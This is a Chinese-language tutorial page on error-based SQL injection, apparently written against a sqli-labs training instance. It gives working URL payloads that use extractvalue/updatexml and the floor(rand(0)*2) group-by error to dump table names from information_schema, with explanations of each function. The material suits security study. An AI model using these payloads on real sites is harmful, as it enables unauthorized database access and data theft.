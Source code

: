 

# SQL注入技巧与示例

## 1. 基于报错的SQL注入

### 1.1 使用 `extractvalue` 提取表名

```sql
http://192.168.77.131/master/Less-1/?id=1' and (extractvalue(1, concat(0x3a, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x3a))) --+
```

- **`updatexml(arg1, arg2, arg3)`** 和 **`extractvalue(arg1, arg2)`** 可以用于报错注入。
  
- **`arg2` 参数：**
  ```sql
  concat(0x3a, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x3a)
  ```

- 最终的payload

  ```sql
  http://192.168.77.131/master/Less-1/?id=1'and extractvalue(arg1,arg2)
  
  http://192.168.77.131/master/Less-1/?id=1'and (extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))) --+
  ```

  以上代码用于在页面中显示当前数据库中的所有表名。

### 1.2 使用 `floor` 函数进行报错注入

- **解释:**``floor报错注入``准确的说应该是``floor``,``count``,``group by``冲突报错,``count(*)``,三者缺一不可

- **示例公式：**
  
  ```sql
  and select 1 from (select count(*), concat(database(), floor(rand(0)*2)) x from information_schema.tables group by x) a
  ```
  
- **关键函数解析：**
  - **`floor()`**：取整函数
  - **`rand()`**：生成0和1之间的随机数
  - **`floor(rand(0)*2)`**：当记录数大于等于3时，必定报错且返回值有规律

### 1.3 详细解释

1. **`floor(rand()*2)` 随机输出0或1，有两条记录时可能会报错：**
   - **`rand()`**：生成0和1之间的随机数
   - **`floor(rand()*2)`**：乘以2后取整，结果只能是0或1

   由于`rand()`生成的随机数不同，可能会导致`group by`查询中出现两个不同的分组值，从而引发报错。

